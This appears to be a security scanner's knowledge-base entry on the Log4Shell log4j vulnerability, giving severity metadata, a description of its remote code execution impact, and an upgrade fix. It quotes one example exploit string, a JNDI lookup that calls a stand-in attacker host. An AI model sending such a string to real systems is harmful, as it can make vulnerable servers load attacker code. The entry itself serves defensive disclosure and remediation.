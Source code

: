 ```yaml
---
name: Log4Shell
severity: high
cvss-score: 10.0
cvss-vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
cwe-id: CWE-917
cwe-name: Improper Neutralization of Special Elements used in an Expression Language
  Statement ('Expression Language Injection')
compliance:
  HIPAA: 164.306(a)
  ISO 27001: A.5.33, A.5.34, A.8.3, A.8.9, A.8.12
  owasp10: A3
  pci: 6.5.1

---            
```


A remote code execution vulnerability (RCE) allows the attacker to execute arbitrary code and operating system commands on the server. In the worst-case scenario, the attacker will be able to fully compromise the server, extract sensitive data, modify the application contents or delete data.

The log4j RCE vulnerability can be easily exploited. All you need is to find a vulnerable version of log4j, an endpoint with any protocol (HTTP, TCP, etc) that allows an attacker to send the exploit string (e.g. ${jndi:ldap://attacker.com/a}), and a log statement that logs out the string from that request.

## How to fix

{% tabs log4shell %}
{% tab log4shell generic %}
To fix the Log4Shell vulnerability, you need to update all instances of log4j to version 2.17.0 or above.
{% endtab %}

{% endtabs %}
